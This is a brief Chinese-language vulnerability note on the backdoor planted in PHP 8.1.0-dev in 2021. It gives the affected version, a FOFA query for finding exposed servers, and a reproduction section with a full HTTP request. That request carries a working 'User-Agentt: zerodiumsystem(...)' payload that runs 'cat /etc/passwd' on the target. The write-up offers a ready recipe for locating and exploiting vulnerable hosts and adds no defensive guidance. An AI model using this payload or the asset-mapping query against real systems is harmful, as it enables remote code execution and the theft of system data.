 # PHP-8.1.0-dev zerodium后门命令执行漏洞

# 一、漏洞简介
PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送`User-Agentt`头来执行任意代码。

# 二、影响版本
+ PHP/8.1.0-dev

# 三、资产测绘
+ fofa`"PHP/8.1.0-dev"`
+ 特征

![1696168261552-13f55cc9-34bf-4a45-b935-812435375e09.png](./img/NF04CG2inYN-Es8-/1696168261552-13f55cc9-34bf-4a45-b935-812435375e09-358972.png)

# 四、漏洞复现
```plain
GET / HTTP/1.1
Host: xx.xx.xx.xx
User-Agentt: zerodiumsystem("cat /etc/passwd");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
```

![1696168333495-01ed0a8c-814b-48b8-94bf-dd024eb424c7.png](./img/NF04CG2inYN-Es8-/1696168333495-01ed0a8c-814b-48b8-94bf-dd024eb424c7-736557.png)



> 更新: 2024-09-05 23:27:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wr81rdntsr6nz25n>